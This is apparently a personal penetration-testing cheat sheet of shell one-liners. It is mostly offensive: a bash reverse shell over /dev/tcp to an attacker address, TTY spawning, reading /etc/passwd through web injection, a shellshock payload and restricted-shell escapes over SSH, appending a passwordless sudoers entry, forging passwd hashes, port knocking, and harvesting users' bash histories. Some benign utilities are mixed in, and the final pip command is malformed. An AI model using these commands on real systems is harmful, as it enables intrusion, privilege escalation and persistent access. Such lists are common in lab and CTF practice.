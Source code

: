 Proper bash shell:

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

Print all users in /etc/passwd from web injection:

```shell
cat /etc/passwd | awk -F':' '{print $1}'
```

Replace each ',' with a newline:

```shell
echo -n 'kas:asddas,asdkjlaskjdlasd:asda,asdasasd:aaaaaa' | sed 's/,/\n/g'
```

Print all text between |> and <| on a new line

```shell
grep -shzoP "(\|>)(.*?)(<\|)" response | sed  "s/|>/ /g" | sed "s/<|/\n/g"
```

Port knocking:

```shell
nmap $TARGET_IP -p 7469,8475,9842 -r --max-retries 0 --max-parallelism 1 -sT --scan-delay 200ms --max-rtt-timeout 200ms -Pn
```

```shell
nc -z $TARGET_IP PORT1 PORT2 PORT3
```

Grep UTF16 file:
#utf16 #utf-16
```bash
conv -f utf-16 -t utf-8 $UTF16_FILENAME.log | grep -v "SELECT_LINES_NOT_CONTAINING"
```

Generate user password for use in /etc/passwd

```shell
openssl passwd -1 -salt salt password
```

Get all users with history:

```bash
find /home -name .bash_history -exec wc -l {} \; 2>/dev/null | sort | grep -v "^0"
```

Find all "test.py" files

```bash
find / -name "test.py" -type f 2>/dev/null
```

List all sudo commands for user:

```shell
sudo -l
```

Start HTTP server

```shell
python3 -m http.server
```

```shell
python -m SimpleHTTPServer
```

```shell
ruby -run -e httpd path/to/your/project -p 80
```

```shell
php -S 0.0.0.0:80
```

Escape profile restricted bash accounts with SSH access

```shell
ssh $USERNAME@$TARGET_IP -t "bash --noprofile"
```

```shell
echo os.system("/bin/bash")
```

Other methods:

```shell
ssh $USERNAME@$TARGET_IP -t "/bin/sh" or "/bin/bash"
```

```shell
#shellshock
ssh $USERNAME@TARGET_IP -t "() { :; }; /bin/bash"
```

Login using SSH key file

```bash
ssh -i private_id_rsa USER@$TARGET_IP -t "bash --noprofile"
```

Check for ports that are opened on other network devices

```bash
netstat -antup
```

```bash
ss -tunlp
```

---

Add current directory to the PATH variable:

```shell
export PATH=$PWD:$PATH
```

or use with SUDO:

```shell
sudo PATH=$PWD:$PATH /path/to/executable
```

---

Reverse shell to port 4444:
---
```shell
bash -c "bash -i >& /dev/tcp/$LOCAL_IP/4444 0>&1"
```

Assign user an id in case of NFS / mount
---
```shell
usermod -u $U_ID $USERNAME
```

Assign an id to a group
---
```shell
groupmod -g $GROUP_ID $GROUP_NAME
```

Add user to sudo
---
```shell
usermod -aG sudo $USERNAME
```

---

Add user to SUDOers:
---
```bash
echo "$USERNAME  ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

---


Connect using SSH in case of old/weird encryption:
---

```shell
ssh -oHostKeyAlgorithms=+ssh-dss $USER@$TARGET_IP
```

or

```shell
ssh -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa $USER@$TARGET_IP
```

---
**Python install from setup.py**
---

```shell
pip . install
```
